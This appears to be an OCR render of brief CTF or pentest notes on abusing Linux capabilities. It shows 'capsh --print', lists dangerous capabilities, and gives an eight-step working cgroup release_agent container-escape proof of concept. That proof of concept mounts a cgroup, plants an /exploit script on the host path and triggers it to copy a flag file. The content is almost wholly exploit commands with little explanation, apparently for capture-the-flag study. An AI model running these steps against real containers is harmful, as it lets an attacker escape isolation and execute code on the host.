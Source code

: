 ## Command to list

### capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  echo 1 > /tmp/cgrp/x/notify_on_release

### 3.  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

#### 4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  echo '#!/bin/sh' > /exploit

#### 6.  echo "cat /home/user/flag.txt > $host_path/flag.txt" >> /exploit

#### 7.  chmod a+x /exploit

#### 8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
